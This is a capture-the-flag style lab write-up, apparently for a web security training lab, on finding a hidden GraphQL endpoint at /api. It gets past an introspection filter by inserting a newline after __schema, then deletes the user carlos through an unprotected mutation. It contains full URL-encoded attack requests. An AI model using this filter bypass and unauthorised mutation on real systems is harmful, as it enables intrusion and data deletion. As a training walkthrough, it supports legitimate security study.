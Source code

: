 ## Finding a hidden GraphQL endpoint

### Objective:
- The user management functions for this lab are powered by a hidden GraphQL endpoint. 
- You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.
- To solve the lab, find the hidden endpoint and delete **`carlos`**.

### Security Weakness:

### Exploitation Methodology:
1. In Repeater, send requests to some common GraphQL endpoint suffixes and inspect the results.
2. Note that when you send a GET request to **`/api`** the response contains a "**Query not present**" error. This hints that there may be a GraphQL endpoint responding to GET requests at this location.
3. Amend the request to contain a universal query. Note that, because the endpoint is responding to GET requests, you need to send the query as a URL parameter.
    For example: **`/api?query=query{__typename}`**.
4. Notice that the response confirms that this is a GraphQL endpoint: **`{ "data": { "__typename": "query" } }`**
5. Send a new request with a URL-encoded introspection query as a query parameter. For example:
```basic
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
6. Notice from the response that introspection is disallowed.
![](./Images/2d826299ee2de63a5af13ac764ab99a4.png)
7. Modify the query to include a newline character after `__schema` and resend. For example:
```basic
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
8. Notice that the response now includes full introspection details. This is because the server is configured to exclude queries matching the regex **`"__schema{"`**, which the query no longer matches even though it is still a valid introspection query.
9. Save the introspection response body as a local JSON file.
10. Go to the **InQL Scanner** tab and scan the saved file.
11. Browse the schema and find the **`getUser`** query.
12. In Repeater, send the `getUser` query to the endpoint you discovered. Note that you need to convert the query to URL encoding.
    For example: **`/api?query=query%20%7B%0A%09getUser(id%3A1334)%20%7B%0A%09%09id%0A%09%09username%0A%09%7D%0A%7D`**
13. Notice that the default **`1334`** user ID causes the API to return an error.
14. Test alternative user IDs until the API confirms **`carlos`** user ID. In this case, the relevant user ID is **`3`**.
![](./Images/fa999ebf60728368aef3984f19ae7688.png)
15. In the **InQL Scanner** tab, browse the schema again and find the `deleteOrganizationUser` mutation. Notice that this mutation takes a user ID as a parameter.
16. In Repeater, send a **`deleteOrganizationUser`** mutation with a user ID of **`3`** to delete **`carlos`** and solve the lab. For example:
```basic
/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```

> **🗒️ NOTE**
> Make sure the json response is properly formatted and doesn't contain any errors when saving to a local file. 
> Use https://www.urlencoder.org/ when url encoding queries. 

### Insecure Code:

### Secure Code:
